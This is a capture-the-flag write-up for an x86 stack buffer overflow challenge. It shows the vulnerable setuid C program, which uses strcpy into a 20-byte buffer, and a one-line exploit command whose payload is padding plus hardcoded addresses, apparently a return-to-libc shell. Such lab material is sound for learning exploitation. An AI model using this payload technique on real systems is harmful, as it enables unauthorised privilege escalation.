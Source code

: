 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# 🐧 ELF x86 - Stack buffer overflow basic 6

Code chall:

```c
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
 
int main (int argc, char ** argv){
    char message[20];
 
    if (argc != 2){
        printf ("Usage: %s <message>\n", argv[0]);
        return -1;
    }
 
    setreuid(geteuid(), geteuid());
    strcpy (message, argv[1]);
    printf ("Your message: %s\n", message);
    return 0;
}
```

```python
./ch33 `python -c "print 'A'*20 + '1'*12 + '\x10\x83\xe6\xb7' + 'AAAA' + '\x4c\xad\xf8\xb7'"`
```

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

